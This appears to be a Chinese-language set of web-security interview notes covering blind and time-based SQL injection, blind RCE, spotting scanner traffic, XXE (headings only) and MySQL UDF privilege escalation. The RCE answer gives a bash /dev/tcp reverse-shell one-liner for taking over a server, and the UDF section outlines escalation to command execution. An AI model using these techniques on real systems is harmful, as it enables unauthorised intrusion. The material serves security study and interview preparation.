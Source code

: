 #### （6）盲注和延时注入的共同点？

都是一个字符一个字符的判断







## 16、问了rce（命令执行）没有回显怎么办

> RCE漏洞，可以让攻击者直接向后台[服务器](https://cloud.tencent.com/product/cvm?from=10680)远程注入**操作系统命令**或者**代码**，从而控制后台系统。
>
> 一般出现这种漏洞，是因为**应用系统从设计上需要给用户提供指定的远程命令操作的接口**。比如我们常见的路由器、防火墙、[入侵检测](https://cloud.tencent.com/product/cwp?from=10680)等设备的**web管理界面**上。一般会**给用户提供一个ping操作的web界面**，用户从web界面输入目标IP，提交后，后台会对该IP地址进行一次ping测试，并返回测试结果



> #### 反弹shell，在无回显的RCE中，我们输入的命令是执行了的，只是不给我们显示出来，我们可以输入用来反弹shell的命令来拿到对方服务器的权限。输入bash -i >& /dev/tcp/ip/port 0>&1 这个命令，通过自己服务器来对对方服务器进行查询，这时候就不会有过滤限制和无回显的限制了。



## 17、怎么判断是扫描器的流量还是手工扫描的流量

扫描的速度可以参考，是不是脚本扫的，就是流量的速度，一般像sqlmap这种，日志会有这个字段显示的，ua头，扫描量与扫描日志分析



## 18、xxe漏洞

### （1）



### （2）xxe的引入方式







## 19、sql提权的方式

mysql提权，serv-u提权，

1、 通过 UDF 提权；

UDF可以理解为MySQL的函数库，可以利用udf定义的创建函数。想要利用udf，必须上传udf.dll作为udf的执行库。MySQL中支持UDF扩展，使得我们可以调用DLL里面的函数来实现一些特殊的功能。

> 利用了root高权限，创建带有调用 cmd 的函数的 udf.dll 动态链接库， 
>
> 导出 udf.dll 文件后，我们就可以直接在命令框输入 cmd 
>
> 限制条件： 
>
> 1-MySQL 数据库没有开启安全模式（确认secure_file_priv=''是否为空） 
>
> 2-已知的数据库账号具有对MySQL数据库insert和delete的权限，最好是root最高权限。 
>
> 3-shell有写入到数据库安装目录的权限。 
>